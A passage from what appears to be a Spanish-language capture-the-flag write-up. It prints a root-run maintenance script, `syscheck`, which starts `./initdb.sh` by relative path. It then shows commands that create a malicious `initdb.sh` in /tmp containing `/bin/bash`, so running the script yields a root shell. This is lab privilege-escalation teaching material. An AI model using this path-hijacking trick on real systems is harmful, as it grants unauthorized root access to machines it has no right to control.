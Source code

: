 Examinamos el contenido del script `syscheck` para entender qué hace.

```bash
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

#### Respuesta:

El script revisa la información del sistema y, si no se está ejecutando el servicio `initdb.sh`, lo inicia.

#### Explicación:

El script `syscheck` realiza varias tareas administrativas, como verificar el tiempo de modificación del kernel, el espacio en disco y la carga del sistema. También verifica si el servicio `initdb.sh` está en ejecución. Si no lo está, lo inicia. Este script proporciona una oportunidad para interactuar con el sistema y ejecutar comandos con privilegios elevados.

---

### Paso 6: Creación de `initdb.sh` y ejecución con privilegios elevados

#### Acción:

Creamos el archivo `initdb.sh` en el directorio `/tmp` y lo hacemos ejecutable.

```bash
dvir@headless:/tmp$ touch initdb.sh
dvir@headless:/tmp$ echo -e '#!/bin/bash\n/bin/bash' > initdb.sh 
dvir@headless:/tmp$ chmod +x initdb.sh
```
